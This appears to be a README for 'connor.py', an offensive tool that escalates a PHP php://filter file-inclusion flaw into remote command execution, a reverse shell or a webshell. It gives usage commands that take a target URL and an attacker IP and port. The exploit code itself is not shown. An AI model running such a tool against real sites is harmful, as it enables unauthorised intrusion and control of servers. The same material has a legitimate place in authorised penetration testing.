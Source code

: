 
# connor.py

- Upgrades a source code disclosure attack via php://filter LFI/RFI into a reverse shell
- Avoids webservers URI size limitation by writting the reverse shell letter by letter
- Includes extra features for webshell & RCE

## Usage
`python3 connor.py help`

**RCE**

`python3 connor.py rce <TARGET-URL> <COMMAND>`

**REVERSE SHELL**

`python3 connor.py shell <TARGET-URL> <IP> <PORT>`

**WEBSHELL** 

`python3 connor.py web <TARGET-URL> <IP> <PORT>`

**<TARGET-URL> format**

`http://site.com?param=`

*An update is coming for URLs with multiple params. For now harcode `url` in `execute_command`.*

## Credits
The RCE part (which is the foundation of this script) was made possible by adapting the code of synacktiv:

https://github.com/synacktiv/php_filter_chain_generator

## Contact
contact@break.me | https://break.me
